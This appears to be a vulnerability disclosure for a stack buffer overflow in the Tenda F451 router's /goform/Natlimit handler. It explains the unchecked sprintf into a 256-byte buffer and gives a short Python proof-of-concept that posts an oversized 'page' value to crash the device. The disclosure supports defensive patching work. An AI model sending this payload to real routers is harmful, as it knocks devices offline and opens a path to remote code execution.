


# Vulnerability Report: Stack-based Buffer Overflow in Tenda F451 Router
A stack-based buffer overflow vulnerability has been identified in the web management interface of the **Tenda F451** router. This vulnerability persists across multiple firmware versions, specifically **v1.0.0.7** and **v1.0.0.9**. An attacker can trigger this vulnerability by sending a maliciously crafted, overly long string within the `page` parameter to the `/goform/Natlimit` endpoint. Successful exploitation can result in a Denial of Service (DoS) or Remote Code Execution (RCE).

### Vulnerability Details
**Product Information** 

**Product:** Tenda F451 Wireless Router

**Affected Versions:** V1.0.0.7, V1.0.0.9 

**Vulnerability Type**: Stack-based Buffer Overflow 


### Description:
The vulnerable code exists in the `fromNatlimit` function. The web server retrieves the user-controlled `page` parameter from a POST request.The critical flaw is the use of the unsafe `sprintf` function to format a URL string into a fixed-size stack buffer `s[256]`.

Since there is no validation or length check performed on the `page` parameter (`v5`) ,a string longer than the length will overflow the stack buffer.



### Poc

The following Python script demonstrates how to trigger the buffer overflow by sending a large payload via the `page` parameter.

```python
import requests


host = "192.168.0.1:80"


def exploit_Natlimit():
    url = f"http://{host}/goform/Natlimit"
    data = {
        # b"shareSpeed":b'A'*0x800
        b'page':b'A'*0x800
    }
    res = requests.post(url=url,data=data)
    print(res.content)


exploit_Natlimit()
```


### Reproduce

